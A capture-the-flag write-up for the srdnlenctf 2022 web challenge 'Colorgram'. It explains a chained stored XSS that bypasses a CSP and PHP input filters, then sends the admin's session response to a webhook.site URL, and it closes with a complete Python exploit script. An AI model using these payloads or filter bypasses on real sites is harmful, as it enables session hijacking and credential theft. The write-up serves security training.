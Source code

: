 # srdnlenctf 2022

## Colorgram (0 solves)

> I hope the colorblind community doesn't get offended by this chall...
>
> Website: [http://colorgram.challs.srdnlen.it](http://colorgram.challs.srdnlen.it)
>
> Author: @takenX10

### Solution

By checking the source code (db/init.sql), we can see that the flag is inside the database in the password field of the admin user.
Reading the source code we can also see that the flag gets inserted in the session cookie of the admin, and you can read it by just decoding the jwt cookie.
So naturally, the objective becomes to obtain the admin cookie, even though it is httponly.
By checking the source code (src/login.php), we can also see that **you can obtain the cookie by just making a POST request to /login.php while you are already logged in without sending any parameters**.
Now you need to make the admin do a POST request to login, then send the response to yourself -> so you need a really good XSS.
First of all, you can do an XSS on the description field, you need to bypass the CSP:

```ascii
Content-Security-Policy: default-src 'self' data: *; connect-src 'self'; object-src 'none';
```

To do that, we can use an iframe with the srcdoc tag, like this:

```html
<iframe srcdoc='<script src="data:text/javascript,alert(1)"></script>'></iframe>
```

Now, in order to insert the payload inside our user description we also need to bypass the php filter

```php
function validate_description($desc){
    $maxlength = 32;
    $finalstring = "";
    // Cut the string at the maxlength character
    for($i = 0; $i < $maxlength; $i++){
        $finalstring = $finalstring . $desc[$i];
    }
    $finalstring = urldecode($finalstring);
    $finalstring = str_replace("<","&lt;",$finalstring);
    $finalstring = str_replace(">","&gt;",$finalstring);

    return $finalstring;
}
```

- First of all, the maxlength is too strict, so to bypass it you can just pass the description as an array (`description[]=`)
- Then, we can see that the query gets decoded once more inside the code, so to bypass the `<` and `>` filter you need to url encode the character 2 times ([cyberchef](<https://cyberchef.org/#recipe=URL_Encode(false)Find_/_Replace(%7B'option':'Regex','string':'%253C'%7D,'%2525253C',true,false,true,false)Find_/_Replace(%7B'option':'Regex','string':'%253E'%7D,'%2525253E',true,false,true,false)&input=PGlmcmFtZSBzcmNkb2M9JzxzY3JpcHQgc3JjPSJkYXRhOnRleHQvamF2YXNjcmlwdCxhbGVydCgxKSI%2BPC9zY3JpcHQ%2BJz48L2lmcmFtZT4>))

```ascii
description[]=%25253Ciframe%20srcdoc='%25253Cscript%20src=%22data:text/javascript,alert(1)%22%25253E%25253C/script%25253E'%25253E%25253C/iframe%25253E
```

Now we can just make a POST to `http://challengeurl/login.php` and send the response to our webhook:

```html
<iframe
  srcdoc='<script src="data:text/javascript,fetch(`http://challengeurl/login.php`,{method:`POST`}).then(r=>r.text()).then(d=>location=`https://webhook.site/243cc977-cefe-4e31-ac1d-fa5ece996add?c=${d}`);"></script>'
></iframe>
```

And encode it with the same method as before, final payload for the description:

```ascii
description[]=%25253Ciframe%20srcdoc='%25253Cscript%20src=%22data:text/javascript,fetch(%60http://challengeurl/login.php%60,%7Bmethod:%60POST%60%7D).then(r=%25253Er.text()).then(d=%25253Elocation=%60https://webhook.site/243cc977-cefe-4e31-ac1d-fa5ece996add?c=$%7Bd%7D%60);%22%25253E%25253C/script%25253E'%25253E%25253C/iframe%25253E
```

Now we need to make the admin open our xss.
By checking the color parameter we can see it gets inserted without `"`, so we can just add a space and an onload tag to inject an xss inside the color page.
Now we need to bypass the filter:

```php
if(strlen($color) > 48){
    die('{"error":"color too long!"}');
}
if(preg_match('/[\x00-\x7E]/',$color)){
    if(preg_match('/(\[|\]|\$|\ |\n|\'|\"|\<|\>|\\|\x00|\t|\`|\{|\}|.*on.+=)/',$color)){
        die('{"error":"Invalid character found!"}');
    }
}
```

- %0C does the same thing of space
- we can make a string by casting a regex as a string (`(/account.php?name=sos/))`) instead of using `'` or `"`
- The final slash of the regex is inserted inside the parameter, so we need to call our account with a slash at the end
- To bypass the `on` filter, we can write `oN` or `On`
- With all this, we can make a window.open (shorter than `window.location` and does'n use `on`)

Final payload, barely inside the 48 characters limit:

```ascii
%250CoNload=window.open((/account.php?name=sos/))
```

The last thing to remember is that you should use the challenge url inside your fetch to make it work locally, but to make it work for the admin you should use the internal url `http://colorgram:80/`

Proof of concept below.

Flag: `srdnlen{N1ce_J0B_s0rry_f0r_th1s_X55_4nd_h77p0nly_bypass}`

### Exploit

```python
import requests

CHALLENGE_URL = "http://challengeurl"

# Insert your webhook here
WEBHOOK_URL = "https://webhook.site/7b0e414b-e360-4b7b-865f-4e628ce3307a"

# remember / at the end of the name
username = "sos/"
password = "SrdnlenBestTeam"
mail = "srdnlen@thebest"

# If false it will perform the registration for you, otherwise it will just log in
already_registered = False

# < and > will get url encoded 2 times, the payload will be sent as an array (description[]) automagically (line 36)
payload_description = """<iframe srcdoc='<script src="data:text/javascript,fetch(`http://colorgram-app/login.php`,{method:`POST`}).then(r=>r.text()).then(d=>location=`%s?c=${d}`);"></script>'></iframe>"""%WEBHOOK_URL

payload_color = f"%250CoNload=window.open((/account.php?name={username}))"

session = requests.session()

def register(username, password, email):
    url = f"{CHALLENGE_URL}/register.php"
    data = {"username": username, "email": email, "password": password, "description": "srdnlenisthebestctfteam"}
    return session.post(url, data=data, allow_redirects = False)

def login(username, password):
    url = f"{CHALLENGE_URL}/login.php"
    data = {"username": username, "password": password}
    return session.post(url, data=data, allow_redirects = False)

def change_description(username, new_description):
    url = f"{CHALLENGE_URL}/description.php?name={username}"
    data = {"description[]":new_description}
    # No data=data so that the description[] gets interpreted correctly
    return session.post(url, data, allow_redirects = False)

def report_color_to_admin(username, color):
    url = f"{CHALLENGE_URL}/report.php?name={username}"
    data = {"admin_request":color}
    return session.post(url, data=data, allow_redirects = False)

def main():
    global payload_description
    if(already_registered):
        print("Logging in...")
        print(login(username, password).text)
    else:
        print("Registering...")
        print(register(username, password, mail).text)

    # double url encode char and make list
    payload_description = payload_description.replace("<","%253C")
    payload_description = payload_description.replace(">","%253E")
    print("Changing description...")
    print(change_description(username, payload_description).text)
    print("Reporting color to admin...")
    print(report_color_to_admin(username, payload_color).text)
    print("Now check your webhook, get the jwt inside the request and decode it (https://jwt.io/)")

if __name__ == "__main__":
    main()
```
